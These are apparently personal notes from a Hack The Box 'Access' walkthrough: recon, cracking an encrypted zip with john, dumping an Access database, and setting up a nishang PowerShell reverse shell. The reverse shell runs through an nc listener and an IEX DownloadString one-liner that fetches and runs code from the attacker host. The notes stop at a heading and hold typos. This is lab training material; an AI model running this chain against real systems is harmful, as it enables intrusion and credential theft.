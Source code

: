 # HTB Access 
credit https://www.youtube.com/watch?v=Rr6Oxrj2IjU&t=1204s

## Step 1 Recon

  #### environment info gethering 
1. namp -sC -sV -oA namp/access <ip address>
2. wget -m --no-passive ftp://anonymoux:anonymous@<ip address>
3. Check http://<ip address>/robet.txt
4. Looks for existing or hidden web objects
gobuster -u http://<ip address> -w /usr/share/wordlists/seclists/discovery/web_content/<check yourself>
  
  #### File handling
5. unzip/7z to decompress a zip file
6. exiftool out.jpg
7. strings out.jpg
8. file backup.mdb
  
  #### Tools
9. apt search mdbtools
10. apt-get install <package>

* mdb-array
* mdb-export
* mdb-header
* mdb-hexdump
* mdb-parsecvs
* mdb-prop
* mdb-schema
* mdb-sql
* mdb-tables
* mdb-ver

#### Encripted file handling
9. 7z l -slt encriptedFile.zip
10. zip2john encriptedFile.zip > encriptedFile.hash
11. strings -n 8 backup.mdb | sort -u > possibleWordList
12. guess the password using the backup.mdd wordlist
john encriptedFile.hash --wordlist=possibleWordList -- show

#### MDB handling
13. mdb-sql backup.mdb

    |-list tables [list out all tables name in console]
    
    |-go
14. Export all table stored at the backup.mdb
    
    for i in $(mdb-tables backup.mdb);do mdb-export backup.mdb $i>tables/$i; done
15. Counting the exported tables by line 
  
    wc -l * | sort -n
    
    
## Step 2 Gain Access

#### Preparing reverse tcp shell for windows
-----------------------------
##### Kali
1) using this script /opt/nishang/shells/invoke-PowerShellTcp.ps1
Change the reverse address 
https://github.com/samratashok/nishang

2) startup web server

python -m SimpleHTTPServer

3) nc -lvnp 9001

##### Target Windows
4) powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://<ip address>/invoke-PowerShellTcp.ps1')


## Step 3 Getting target server information

### Checking windows environment JAWS
